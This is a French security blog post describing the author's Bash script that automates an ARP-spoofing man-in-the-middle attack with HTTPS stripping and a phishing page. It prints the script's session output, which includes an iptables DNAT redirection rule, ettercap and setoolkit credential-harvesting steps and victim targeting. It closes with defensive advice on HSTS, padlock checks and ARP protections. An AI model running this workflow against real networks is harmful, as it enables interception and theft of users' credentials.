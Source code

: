 ```yaml
---
layout: post
title:  "Phising d'un site web avec attaque MITM"
date:   2016-09-08
categories: mitm
---
```

Phising d'une page web avec une attaque MITM.
----------

Hi Everybody,

Je me suis dit qu'il était intéressant de partager avec vous un petit script **Bash** que j'ai créé pour automatiser une attaque MITM et rediriger vers une fausse page web que nous allons héberger ([https://github.com/phackt/Workshops/tree/master/mitm/phishing](https://github.com/phackt/Workshops/tree/master/mitm/phishing)). L'objectif est pour une attaque ciblée de rendre l'obtention des credentials la plus transparente possible. Cependant il n'existe pas de solution miracle, à chaque combat sa stratégie.  
  
Ici nous allons donc cibler un site possédant une page d'accueil non sécurisée (HTTP), permettant l'interception en clair des liens HTTPS et de les transformer en liens HTTP classiques. Certains outils comme [sslstrip](https://github.com/moxie0/sslstrip) permettent ce genre d'opérations, en éliminant le caching des pages et en traitant également les headers response **Location** lors des redirections. De notre coté nous utiliserons un simple filtre [ettercap](https://github.com/Ettercap/ettercap) que nous compilerons avec etterfilter.  
  
Pour petit rappel:  

 > L'attaque de l'homme du milieu ou man-in-the-middle attack (MITM) est une attaque qui a pour but d'intercepter les communications entre deux parties, sans que ni l'une ni l'autre ne puisse se douter que le canal de communication entre elles a été compromis.  
  
![Mitm]({{ site.url }}/public/images/mitm-phishing/owasp-man_in_the_middle.jpg)  
Cette attaque se base sur la corruption du cache ARP enregistrant les correspondances @IP <-> @MAC sur un réseau local. Vous regarderez les HotSpot et autres Wifi gratuits d'un autre oeil ;). Il existe plusieurs outils pour effectuer une [attaque MITM](https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/) et nous utiliserons Ettercap.  
  
Le site web a été falsifié grâce à l'outil [setoolkit](https://github.com/trustedsec/social-engineer-toolkit) (Social-Engineer Toolkit). Concernant la redirection du domaine, j'ai simplement effectué une règle iptables PREROUTING DNAT au lieu d'effectuer un DNS SPOOFING qui aurait demandé que le cache DNS soit vidé.   
  
Mais venons-en au cas pratique concernant l'exécution du script **phishing.ksh**:  
  
```xml
----------------------------------------------
   --==MITM attack with website phishing==--   
----------------------------------------------

[+] Flushing ip forwarding
[+] Flushing iptables

#HERE SET THE NAME OF THE LOG DIR THAT WILL BE CREATED
Name of 'Session'? (name of the folder that will be created with all the log files): test

#CHOOSE YOUR INTERFACE UP
[+] Discovering interfaces
lo:     state  UNKNOWN
eth0:   state  DOWN
wlan0:  state  UP
Please enter your interface: wlan0

#IF YOU WANNA CHANGE YOUR MAC ADDRESS (http://www.macvendors.com/)
Do you wanna spoof MAC @ ? [yYnN]: n

#TYPE THE DOMAIN THAT WILL BE REDIRECTED TO YOUR WEBSITE
Which domain do you wish to redirect ?: secure.domain.fr

#ASSUMING 192.168.1.99 IS THE MITM MACHINE LOCAL IP WITH APACHE RUNNING
[+] Setting up DNAT iptables rule
iptables -t nat -A PREROUTING -p tcp --dport 80 -d secure.domain.fr -j DNAT --to-destination 192.168.1.99:8080

#IF YOU WANNA RUN SETOOLKIT ( choose options 1) Social-Engineering -> 2) Website Attack Vectors -> 3) Credential Harvester Attack Method )
[+] Setting up website phishing
Do you wanna run setoolkit ? [yYnN]: n

[+] Starting apache2 service

#RUN NETDISCOVER IN ORDER TO ARPING THE SUBNET
[+] Net discovering
Do you wanna netdiscovering ? [yYnN]: y
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     01:12:23:34:45:56      1      42  Gateway
 192.168.1.100   12:23:34:45:56:67      2      84  Apple Macbook Pro

-- Active scan completed, 1 Hosts found.


[+] Routing information
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
192.168.1.0     0.0.0.0         255.255.255.0   U     600    0        0 wlan0

#CHOOSE THE VICTIM
Enter target1 ip: 192.168.1.11
#CHOOSE THE SECOND MACHINE (DEFAULT IS GATEWAY)
Enter target2 ip [press enter for default gateway 192.168.1.1]: 

#LAUNCHING ETTERCAP WITH THE HTTPS STRIP ETTERCAP FILTER (https_strip.ef)
[+] Running MITM attack...

#IF YOU NEED TO LEGITIMATE AN ARP REPLY (IF GATEWAY IS A PRETENTIOUS YOUNG MADAM)
/!\ Please check poisoning is OK by typing 'P', then 'chk_poison'
Command for protected gateway: 
dhcping -c 192.168.1.100 -h 12:23:34:45:56:67 -s 192.168.1.1 -r -v

#SNIFFING HTTP REQUESTS
[+] Starting GET/POST logging...
urlsnarf: listening on wlan0 [tcp port 80 or port 8080 or port 3128]

#TAILING PHISHING WEBSITE HARVESTER FILE
[+] Looking for credentials...

[+] IMPORTANT...
After the job please close this script and clean up properly by hitting 'qQ'
```

Les outils MITM peuvent également forger dynamiquement un certificat pour interception des connexions TLS/SSL. Cependant ce dernier n'étant pas signé par une autorité de certification, un warning dans votre navigateur affichera que le certificat est non valide (assez discret sous Safari cependant)...  

![Certificat]({{ site.url }}/public/images/mitm-phishing/alerte-certificat.png)  

 > <span style="color: red">Cliquez sur 'Back to safety'!!</span>
  
Dans notre exemple, la connexion au site falsifié est non sécurisée (évitant les alertes de certificats). Donc vérifier toujours le cadenas vert dans la barre url et que votre connexion soit sécurisée, sinon COURREZZZZZ:runner::runner:!!!!. Nous voyons aussi l'importance du HSTS (Strict-Transport-Security) abordé dans les [précédents articles]({{ site.url }}/xss-cors-csrf-partie-3-cors-csrf#hsts) pour forcer les connexions HTTPS et bannir tout certificat non valide. Des méthodes de détection d'ARP spoofing existent, la plus contraignante étant l'ajout statique d'une correspondance dans la table ARP. Certains firewall (ex [Symantec](https://www.symantec.com/security_response/glossary/define.jsp?letter=a&word=anti-mac-spoofing)) empêchent les ARP Reply non légitimes. Réfléchissez donc deux fois avant de vous connecter à un HotSpot.
  
A bientôt et surtout...   

```
Keep the positive attitude ;) !
```
<br />
<br />
Références :  
[https://www.owasp.org/index.php/Man-in-the-middle_attack](https://www.owasp.org/index.php/Man-in-the-middle_attack)  
[https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/](https://www.owasp.org/index.php/Man-in-the-middle_attack)